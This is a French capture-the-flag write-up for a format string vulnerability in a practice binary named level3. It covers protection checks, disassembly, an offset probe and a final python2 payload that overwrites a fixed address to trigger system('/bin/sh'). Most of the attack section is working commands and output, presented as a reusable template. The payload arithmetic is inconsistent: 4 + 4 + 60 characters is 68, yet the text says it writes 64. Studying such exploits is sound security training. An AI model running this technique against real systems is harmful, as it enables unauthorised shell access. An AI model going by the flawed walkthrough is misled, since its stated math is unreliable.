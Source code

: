 # Level 3 - Format String Vulnerability Exploitation

## 📅 Objectif

Exploiter une vulnérabilité de type **Format String** pour écrire `0x40` à une adresse mémoire spécifique et déclencher un appel à `system("/bin/sh")`.

---

## 🔒 Analyse des protections

Commande :

```bash
checksec --file=./level3
```

Exemple de sortie :

```
RELRO           : No RELRO
Stack Canary    : No canary found
NX              : NX enabled
PIE             : No PIE
```

**Conclusion :**

* Pas de canary → possibilité d’attaque par la stack
* NX activé → injection de shellcode impossible, mais ret2libc possible
* Pas de PIE → adresses fixes utilisables directement

---

## 🔎 Reverse Engineering statique

### Fonction `main` :

```asm
0x0804851a <main>:
  call 0x80484a4 <v>
```

### Fonction `v` :

```asm
0x080484c7 <v+35>:  call fgets
0x080484d5 <v+49>:  call printf    ; vulnérabilité ici (pas de format)
0x080484da <v+54>:  mov 0x804988c, %eax
0x080484df <v+59>:  cmp $0x40, %eax
0x080484e2 <v+62>:  jne <skip>
...
0x08048513:  call system("/bin/sh")
```

**Conclusion :**

* L'entrée utilisateur est affichée directement avec `printf(input)`
* Si `*(int*)0x0804988c == 0x40`, on appelle `system()`

---

## 🚀 Exploitation

### ✅ Objectif : écrire `0x40` à `0x0804988c`

### 1. Trouver le bon offset

Payload test :

```bash
python2 -c 'print("\x8c\x98\x04\x08AAAA %1$p %2$p %3$p %4$p %5$p")'
```

Sortie :

```
0x200 0xb7fd1ac0 0xb7ff37d0 0x804988c 0x41414141
```

✅ Adresse ciblée est à la 4e position → on utilisera `%4$hhn`

### 2. Payload final

```bash
python2 -c 'print("\x8c\x98\x04\x08AAAA%60c%4$hhn")' | ./level3
```

**Explication :**

* `\x8c\x98\x04\x08` : adresse cible
* `AAAA` : padding (alignement)
* `%60c` : imprime 60 caractères
* `%4$hhn` : écrit le total (64) à `0x0804988c`

### 3. Résultat

```
Wait what?!
```

✅ La condition est réussie, le programme appelle `system("/bin/sh")`

---

## 💡 Résumé de la méthode

1. Analyser le code et repérer les appels à `printf(input)`
2. Identifier les variables importantes testées dans le code
3. Repérer les adresses fixes utiles (pas de PIE)
4. Trouver le bon offset avec `%x` ou `%p`
5. Construire le payload avec `%c` et `%X$hhn`
6. Injecter et vérifier l'effet (message, shell, etc.)

---

## 🔧 Améliorations possibles

* Ecriture multi-octets avec plusieurs `%hhn`
* Exploitation ret2libc si un retour est contrôlable
* Automatiser l’attaque avec un script Python (pwntools)

---

## 🏆 GG !

Tu as réussi une vraie attaque Format String sur un binaire vulnérable. Ce modèle est réutilisable pour d'autres challenges de CTF ou d'audit sécurité.
